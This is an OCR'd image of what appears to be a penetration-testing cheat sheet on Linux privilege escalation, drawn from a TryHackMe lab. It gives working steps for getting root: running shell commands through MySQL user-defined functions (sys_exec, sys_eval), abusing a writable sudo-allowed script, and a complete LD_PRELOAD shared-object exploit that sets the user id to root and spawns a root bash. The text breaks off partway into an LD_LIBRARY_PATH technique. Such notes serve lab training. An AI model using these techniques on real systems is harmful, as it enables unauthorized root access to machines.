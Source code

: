 MYSQL running as root :

1 mysql -u root
2
3 select sys_exec('whoami');
4 select sys_eval('whoami');
5
6 /* If function doesnt exist, create the function */
7 CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';
8
9 if NULL returns, try redirecting the errors
10 select sys_eval('ls /root 2>&1');

Sudo Abuse

1 $ sudo -l
2 [sudo] password for appadmin:
3 User appadmin may run the following commands on this host:
4 (root) /opt/Support/start.sh

Checklist

Write permission to start.sh
write permission to the /opt/support
Create start.sh if doesn't exist

Environment Variables
(https://tryhackme.com/room/linuxprivesc)
Check which environment variables are inherited (look for the env_keep options):
sudo -l

LD_PRELOAD
LD_PRELOAD is an optional environmental variable containing one or more paths to shared
libraries, or shared objects, that the loader will load before any other shared library including
the C runtime library.

1 /* Preload.c */
2
3 #include <stdio.h>
4 #include <sys/types.h>
5 #include <stdlib.h>
6
7 void _init() {

8 unsetenv("LD_PRELOAD");
9 setresuid(0,0,0);
10 system("/bin/bash -p");
11 }

gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
Run one of the programs you are allowed to run via sudo (listed when running sudo -l),
while setting the LD_PRELOAD environment variable to the full path of the new shared
object:
sudo LD_PRELOAD=/tmp/preload.so program-name-here

LD_LIBRARY_PATH
LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.
Run ldd against the any program that you can execute as sudo (sudo -l) to see which
shared libraries are used by the program:
ldd /usr/sbin/apache2
Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using
the code located at /home/user/tools/sudo/library_path.c:
